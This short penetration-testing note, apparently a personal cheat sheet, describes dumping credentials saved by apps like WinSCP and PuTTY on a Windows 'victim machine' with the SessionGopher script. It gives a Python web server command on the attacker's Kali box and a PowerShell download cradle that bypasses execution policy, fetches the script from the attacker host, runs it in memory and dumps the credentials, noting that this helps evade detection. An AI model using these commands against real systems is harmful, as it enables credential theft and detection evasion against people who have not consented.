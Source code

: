 # r - Obtaining Stored Credentials with SessionGopher

### SessionGopher

This is a powershell script that we can execute on the target system to help us gather credentials that are stored locally by applications such as: WinSCP, Putty etc.

We can use a Powershell download craddle to download and execute the script on the victim machine, doing it this way reduces our footprint, and will execute the entire process within  the memory of the powersshell process, which can help us evade detection mechanisms.

On our kali, we setup a webserver with python. `python -m SimpleHTTPServer 80` .

On the victim cmd prompt session, we execute the powershell download craddle. `powershell.exe -nop -ep bypass -C iex <New-Object Net.Webclient>.DownloadString<'http://kaliIP/sessionGopher.ps1'>; Invoke-sessionGopher` - dumps all the gathered credentials.

You can use the `-Thorough` option at the end of the cmd also, this could take longer time to dump.
